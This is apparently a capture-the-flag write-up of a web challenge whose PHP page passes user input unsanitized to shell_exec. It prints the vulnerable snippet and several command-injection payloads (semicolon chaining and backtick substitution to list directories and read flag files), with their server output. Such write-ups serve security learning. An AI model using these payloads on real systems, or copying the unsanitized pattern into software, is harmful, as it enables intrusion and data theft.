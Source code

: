 Shiny Button Writeup
----------------------------------------------
So we start with a [web page](http://webchal.hax.works:1234/4efbc763384086cd91ce2c898110fd8d/index.php) that gives us some info about MD5 and a text box that hashes our input.

Brute forcing a hash seemed a little too outlandish for this competition so I did some basic enumeration.

A glance at the source code gave us our first hint:
```HTML
    <!--
    echo shell_exec('md5sum '.$_GET['string'].'');
    TODO: Fix shell script, md5 can't take standard input 
    -->
```

So, they are running the md5 through the shell_exec() command.

We know this is exploitable because it passes the $_GET['string'] variable directly without any sanitization -- a big mistake.

If we do some research on the md5sum command, we find out that it deoesn't read from stdin.. just like the comment said. So we can give it input one of two ways:
```bash
echo <string> | md5sum
md5sum <filename>
```
echoing the string into a pipe seems like the most obvious to me so I will do my testing with that.

I used [Postman](https://www.getpostman.com/downloads/) to craft and send my requests but anything will work, even typing directly into the address bar.

A request should look like the following:
```
http://webchal.hax.works:1234/4efbc763384086cd91ce2c898110fd8d/index.php?string=hash+me%21
```

For the remainder of the writeup, I will remove everything up to `string=`

I started by looking fuzzing for an exploit like follows:
```HTML
string=a';cat flag.txt
string=a;cat flag.txt 
```

Very quickly, we can tell that passing a `'` breaks the script and the second query returns:
```
    a
d41d8cd98f00b204e9800998ecf8427e  -
```

Whats happening is that `a` is being echoed and the string `cat flag.txt` is being passed to the md5sum command.
This commands that the server runs the command as:
```Bash
echo <input> | md5sum
```

So how can we exploit that?
```string=a;cat flag.txt;echo a``` 

The reason for the <cmd>;echo a is because we need to:
1. finish the echo command first
2. Run our command
3. feed some input (that is **not** the output of our command) into the md5 function

So the output gives us a blank line where the `cat flag.txt` output should go.
Lets try just a normal command rather than reading the flag:
```Bash
string=a;echo `ls`;echo a
```
The \`\` tell bash to evaluate whats between the ticks and feed the output to `echo`

The response works and we can see:
```
a
Cerulean_Cave index.php
60b725f10c9c85c70d97880dfe8191b3  -
```
Now we can make our command more consice by removing the `a;echo` part. We also need to enumerate the `Cerulean_Cave` directory:
```
string=`ls Cerulean_Cave`;echo a
```
There is a text file that we can now read out

SOLVE:
```HTML
string=`cat Cerulean_Cave/MewTwo.txt`;echo a
```
